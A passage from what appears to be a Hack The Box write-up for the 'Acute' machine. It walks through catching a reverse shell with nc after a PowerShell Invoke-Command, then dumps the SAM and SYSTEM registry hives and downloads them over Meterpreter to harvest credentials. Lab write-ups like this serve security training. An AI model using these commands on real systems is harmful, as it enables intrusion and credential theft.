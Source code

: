 
I’ll start `nc` and run it:

    
    
    PS C:\Utils> Invoke-Command -ScriptBlock { C:\users\imonks\desktop\wm.ps1 } -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred
    

It hangs, but there’s a shell at `nc`:

    
    
    oxdf@hacky$ rlwrap -cAr nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.145 49877
    Microsoft Windows [Version 10.0.19044.1466]
    (c) Microsoft Corporation. All rights reserved.
    
    C:\Users\jmorgan\Documents>
    

Alternatively, I could modify it to add edavies to the administrators group,
and get equivalent access.

## Execution as awallace on ATSSERVER

### Get Password

#### Dump Hives

As a local administrator on Acute-PC01, jmorgan can create backups of the
registry hives:

    
    
    PS C:\Utils> reg save HKLM\sam sam.bak
    The operation completed successfully.
    PS C:\Utils> reg save HKLM\system sys.bak
    The operation completed successfully.
    

If I want copies, I have to create copies, as I can’t directory open the
running hive files.

Since I have a Meterpreter session on the box, I’ll use that to download the
files:

    
    
    meterpreter > download sam.bak
    [*] Downloading: sam.bak -> ~/hackthebox/acute-10.10.11.145/sam.bak
    [*] Downloaded 56.00 KiB of 56.00 KiB (100.0%): sam.bak -> ~/hackthebox/acute-10.10.11.145/sam.bak
    [*] download   : sam.bak -> ~/hackthebox/acute-10.10.11.145/sam.bak
    meterpreter > download sys.bak
    [*] Downloading: sys.bak -> ~/hackthebox/acute-10.10.11.145/sys.bak
    [*] Downloaded 1.00 MiB of 11.58 MiB (8.64%): sys.bak -> ~/hackthebox/acute-10.10.11.145/sys.bak
    ...[snip]...
    [*] Downloaded 11.58 MiB of 11.58 MiB (100.0%): sys.bak -> ~/hackthebox/acute-10.10.11.145/sys.bak
    [*] download   : sys.bak -> ~/hackthebox/acute-10.10.11.145/sys.bak
    